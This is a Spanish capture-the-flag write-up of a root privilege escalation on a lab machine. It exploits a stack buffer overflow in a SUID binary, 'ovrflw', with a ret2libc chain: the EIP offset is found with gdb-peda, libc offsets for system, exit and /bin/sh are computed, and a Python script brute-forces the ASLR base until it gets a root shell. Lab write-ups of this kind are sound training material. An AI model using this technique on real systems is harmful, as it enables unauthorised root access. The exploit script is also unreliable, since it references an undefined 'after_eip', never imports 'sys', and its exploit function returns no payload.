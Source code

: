 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
> Permission denied
id
sudo -l
uname -a

find \-perm -4000 2>/dev/null
```

Aqui vemos un binario interesante `./usr/local/bin/ovrflw`

Lanzamos el binario y vemos que nos pide un input string.


### Bufferoverflow {-}

#### Checkamos si es un bufferoverflow {-}

```bash
ovrflw AAAAAA
ovrflw EEEEEEEEEEEEEEE
which python

ovrflw $(python -c 'print "A"*500')
```

Vemos que hay un **segmentation fault** como error, lo que nos dice que este binario es vulnerable a un Bufferoverflow.

#### Installamos Peda en la maquina victima {-}

Installamos peda en la maquina victima:

```bash
cd /tmp
git clone https://github.com/longld/peda.git
export HOME=/tmp
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

#### Analizamos los registros con peda {-}

```bash
gdb ovrflw
> r
> r AAAA
> r $(python -c 'print "A"*500')
```

```{r, echo = FALSE, fig.cap="EBP EIP overwrite", out.width="90%"}
    knitr::include_graphics("images/October-EBP-EIP-overwrite.png")
```

Aqui vemos que el registrop EBP y EIP han sido sobre escribido. 

#### Buscando el tamaño antes de sobre escribir el EIP {-}

Creamos un patron con peda

```bash
> pattern_create 500
gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAg
AA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA
wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%J
A%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u
A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3As
IAseAs4AsJAsfAs5AsKAsgAs6A'

> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA
wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u
A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```

Si le damos a `p $eip` ya sabemos que es el valor del eip en este caso `0x41384141`. Ya podemos calcular el offset.

```bash
pattern_offset 0x41384141
```

ya nos dice que el offset es de 112.

Lo comprobamos poniendo 112 A y 4 B.

```bash
> r $(python -c 'print "A"*112 + "B"*4)
```

Aqui ya vemos que el EIP vale `0x42424242` que son 4 B en hexadecimal

#### Buscando la direccion despues del registro EIP {-}

```bash
> r $(python -c 'print "A"*112 + "B"*4 + "C"*200)
> x/80wx $esp
```

```{r, echo = FALSE, fig.cap="ESP Entries", out.width="90%"}
    knitr::include_graphics("images/October-esp_entries.png")
```

La idea seria de appuntar el EIP a la direccion `0xbf8d5310` y cambiar los C por codigo malicioso pero si miramos
las proteccionnes del programa con 

```bash
> checksec
```

Vemos que el NX esta Enabled. El NX tambien llamado DEP (Data Execution Prevention) es una proteccion que deshabilita la 
ejecucion de codigo en la pila, esto significa que si le ponemos codigo malicioso en el EIP, el flujo del programa no lo 
va a ejecutar.

Como no se puede ejecutar nada directamente en la pila, tenemos que mirar las libraries compartidas del programa para ver
si podemos llamar a otra cosa que la propria pila.

#### Buscando librerias compartidas {-}

```bash
ldd /usr/local/bin/ovrflw
    linux-gate.so
    libc.so.6
    /lib/ld-linux.so.2
```

Aqui la libreria `libc.so` esta interesante porque nos permitiria ejecutar commandos a nivel de systema. Y si recordamos bien,
el binario ovrflw tiene permisos SUID.

```bash
ldd /usr/local/bin/ovrflw
ldd /usr/local/bin/ovrflw | grep libc
ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}'
ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'
```

Aqui vemos la direccion de la libreria `0xb758a000`

Miramos si la direccion cambia a cada ejecucion

```bash
for i in $(seq 10); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done
```

Aqui vemos que la direccion esta cambiando. Pero si cojemos una de la direcciones por ejemplo la `0xb75e7000` y la grepeamos
al bucle

```bash
for i in $(seq 10); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done | grep "0xb75e7000"
```

nos damos cuenta que esta direccion apparece multiples vecez. Esto pasa porque estamos frente una maquina de 32 bits.

#### La technica ret2libc {-}

La technica ret2libc es una technica que funcciona de una manera muy sencilla y es poniendole la direccion de la funccion system, seguida de la funccion
exit sequida de la funccion que queremos lanzar con la libreria en nuestro caso un /bin/sh.

Para encontrar la direccionnes de estas funcciones, primero tenemos que encontrar el offset que seria la differencia entre la posicion de la funccion con la
posicion de la libreria. Esto quiere decir que si sumamos los dos, conocemos la direccion de las differentes funccionnes.

Para conocer el offset, utilizamos la utilidad readelf:

1. Buscamos el offset del commado **system** de la libreria libc.so

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "system"
    ```

1. Buscamos el offset del commando **exit** de la misma libreria

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "exit"
    ```

1. Buscamos el offset del commando **/bin/sh** en la misma libreria

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "/bin/sh"
    ```

los offsets encontrados en este caso son:

- system    : 00040310
- exit      : 00033260
- /bin/sh   : 162bac

La utilidad readelf nos permitte ver el offset de estos commandos de manera a que si sumamos la direccion de la libreria libc.so
al offset, conocemos la direccion exacta de los differentes commandos.

Una vez connocemos estas direcciones, utilizaremos la techniqua ret2libc para ejecutar el commando /bin/sh como root.

#### Creamos el exploit en python {-}

```python
#!/usr/bin/python3

import signal
from struct import pack
from subprocess import call

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

#Ctrl_C
signal.signal(signal.SIGINT, def_handler)

def exploit():
    base_libc_address = 0xb75e7000

    system_address_offset = 0x00040310
    exit_address_offset = 0x00033260
    bin_sh_address_offset = 0x00162bac

    system_address = pack("<I", base_libc_address + system_address_offset)
    exit_address = pack("<I", base_libc_address + exit_address_offset)
    bin_sh = pack("<I", base_libc_address + bin_sh_address_offset)

    offset = 112
    before_eip = b"A"*offset
    eip = system_address + exit_address + bin_sh

    payload = before_eip + eip + after_eip

if __name__ == '__main__':
    payload = exploit()

    while True:
        response = call(["/usr/local/bin/ovrflw", payload])

        if response == 0:
            print("\n\n[!] Saliendo...\n\n")
            sys.exit(1)

```

En este script podemos ver que el valor que queremos dar al EIP es el **ret2libc** (system address + exit address + /bin/sh address).

Si lanzamos el script `python3 exploit.py`, va a tardar un poco. Tardara finalmente el tiempo que la direccion de la libreria libc sea la misma 
que la que hemos puesto en el script.

Ya vemos que nos entabla un /bin/sh y `whoami` -> root.

